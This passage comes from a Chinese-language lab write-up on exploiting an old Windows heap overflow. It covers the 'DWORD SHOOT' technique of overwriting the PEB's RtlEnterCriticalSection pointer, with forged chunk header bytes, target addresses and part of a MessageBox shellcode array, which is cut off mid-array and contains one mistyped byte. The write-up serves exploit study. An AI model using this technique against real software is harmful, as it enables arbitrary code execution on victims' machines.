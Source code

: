 #### 2.2 实验步骤

1. h1向堆中申请200字节的空间
2. memcpy的上限错误地写成了0x200，这实际上是512字节，会产生溢出
3. h1分配完之后，后面紧跟一个大空闲块（尾块）
4. 超过200字节的数据将覆盖尾块块首
5. 用伪造的指针覆盖尾块块首中的 空表指针，当h2分配时，将导致DWORD_SHOOT
6. DWORD SHOOT的目标是0x7FFDF020处的RtlEnterCriticalSection()函数指针，可以简单地将其修改为shellcode位置
7. DWORD_SHOOT完毕后，堆溢出导致异常，最终导致调用ExitProcess()结束进程
8. ExitProcess()在结束进程时需要调用临界区函数来同步线程，但却从PEB中拿出了指针指向shellcode的指针，因此shellcode被执行

#### 2.3 实验细节

当实验中shellcode为200字节0x90，执行到0x00401085,也就是memcpy函数结束，堆中状态如下图所示（<font color=#0f0>不知道是什么原因，无论shellcode多大，最后使用memcpy(h1, shellcode, 0x200)之后，都会使尾块不见！！！尾块一般的flag标志位0x10</font>）：
![200字节时的堆区](/images/2017-06-26/dword_shoot_shellcode.jpg)


当然这并不重要，重要的是这里面仍然有堆溢出。
缓冲区的布置如下：
(1) 将那段168字节的shellcode用0x90补充为200字节。
(2) 紧随其后，附上8字节的块首信息。为了防止在DWORD SHOOT发生之前产生异常，不放直接将块首从内存中复制使用"\x16\x01\x1A\x00\x00\x10\x00\x00"
(3) 前向指针是DWORD SHOOT的子弹，这里直接使用shellcode的起始地址0x00360688.
(4) 后向指针是DWORD SHOOT的“目标”，这里填入PEB的函数指针地址0x7FFDF020.


如果缓冲区内容如下:
<pre><code>
char shellcode[] =
	"\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\90\x90\x90\x90\x90\x90\x90\x90\x90"

	// MessageBoxA with tile "failwest" and context "failwest"
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
